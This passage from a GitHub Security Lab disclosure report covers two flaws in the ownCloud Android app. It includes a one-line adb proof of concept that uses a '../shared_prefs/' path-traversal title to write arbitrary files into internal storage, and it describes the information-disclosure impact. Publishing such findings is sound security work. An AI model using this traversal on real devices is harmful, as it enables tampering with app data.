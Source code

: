 The following PoC demonstrates how to write an arbitrary `test.txt` text file to the app's internal storage:

```
adb shell am start -n com.owncloud.android.debug/com.owncloud.android.ui.activity.ReceiveExternalFilesActivity -t "text/plain" -a "android.intent.action.SEND" --es "android.intent.extra.TEXT" "Arbitrary contents here" --es "android.intent.extra.TITLE" "../shared_prefs/test"
```

## GitHub Security Advisories

We recommend you create a private [GitHub Security Advisory](https://help.github.com/en/github/managing-security-vulnerabilities/creating-a-security-advisory) for these findings. This also allows you to invite the GHSL team to collaborate and further discuss these findings in private before they are [published](https://help.github.com/en/github/managing-security-vulnerabilities/publishing-a-security-advisory).

## Credit

These issues were discovered and reported by the CodeQL team member [@atorralba (Tony Torralba)](https://github.com/atorralba).

## Contact

You can contact the GHSL team at `securitylab@github.com`, please include a reference to `GHSL-2022-059` or `GHSL-2022-060` in any communication regarding these issues.

## Disclosure Policy

This report is subject to our [coordinated disclosure policy](https://securitylab.github.com/advisories#policy).

## Impact

These issues may lead to information disclosure when uploading the app's internal files, and to arbitrary file write when uploading plain text files (although limited by the `.txt` extension).

## Attachments
No attachments
